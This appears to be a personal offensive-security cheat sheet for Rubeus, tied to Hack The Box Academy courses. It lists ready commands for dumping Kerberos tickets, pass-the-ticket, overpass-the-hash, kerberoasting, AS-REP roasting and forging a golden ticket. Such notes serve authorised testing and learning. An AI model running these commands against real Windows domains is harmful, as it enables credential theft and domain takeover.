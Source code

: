 # Rubeus

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

[Rubeus](https://github.com/GhostPack/Rubeus) <small>(3.8k ⭐)</small> is a Windows tool to interact with kerberos and manipulate tickets.

```shell!
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

Request and load a ticket in the current session:

```shell!
PS> # Load the ticket in the current session
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
PS> .\Rubeus.exe asktgt /user:xxx$ /certificate:[...] /ptt
```

Pass the hash:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
```
</div><div>

Pass the Key / OverPass the Hash <small>(create a ticket)</small>:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
```

Kerberoasting

```shell!
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # Request
PS> .\Rubeus.exe kerberoast /domain:dev.example.com /user:cn /nowrap
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```

ASReproasting

```shell!
PS> .\Rubeus.exe asreproast /user:cn /nowrap /format:hashcat
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Cannot be compiled on Linux.

```shell!
$ DEST="$HOME/tools/rubeus"
$ git clone -b master https://github.com/GhostPack/Rubeus $DEST
$ # need .NET Framework v4.0 Developer Packs at https://aka.ms/msbuild/developerpacks
```
</div><div>

Golden ticket:

```shell!
PS> .\Rubeus.exe golden /rc4:<krbtgt hash> /domain:dev.example.com /sid:<child domain SID>  /sids:<target domain SID> /user:dummy /ptt
```
</div></div>